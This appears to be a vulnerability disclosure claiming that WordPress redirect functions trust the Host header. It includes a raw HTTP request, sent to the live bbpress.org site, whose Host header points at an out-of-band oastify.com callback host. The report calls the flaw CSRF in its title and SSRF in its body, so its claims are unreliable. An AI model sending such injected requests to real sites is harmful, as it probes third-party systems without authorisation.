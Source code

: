 # WordPress <=6.2 HTTPS Redirect Server Cross Site Request Forgery

## Affected Versions

WordPress Versions <=6.2 or All Versions.
</br></br>

##Vulerable Code Location

Line 20 of the WordPress/wp-login.php file and Line 1185/1126 of the WordPress/wp-includes/pluggable.php, redirection methods such as wp_safe_redirect and wp_redirect do not filter the HOST header.
</br>
![image](https://user-images.githubusercontent.com/61698045/212012763-65e7f806-435e-4492-b041-573dc4807dcd.png)
</br>

## Reporting Vulnerability

The official demo site is the latest version 6.2-alpha-55047, as a demo.
</br></br>
1、Use Burp Suite to intercept HTTP requests: http://bbpress.org/
</br></br>
2、Send HTTP SSRF requests to bbpress.org
</br></br>
GET / HTTP/1.1
Host: sieffowm3fd4d0ky081ikmrhe8ky8n.oastify.com
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1474.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="109", "Chromium";v="109", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close
</br></br>

![image](https://user-images.githubusercontent.com/61698045/212013319-13d447ef-ea25-470a-a837-e39f54a7b5ee.png)
</br>
![image](https://user-images.githubusercontent.com/61698045/212013479-09508854-414f-4069-8dda-ad77b9deabb9.png)
</br>
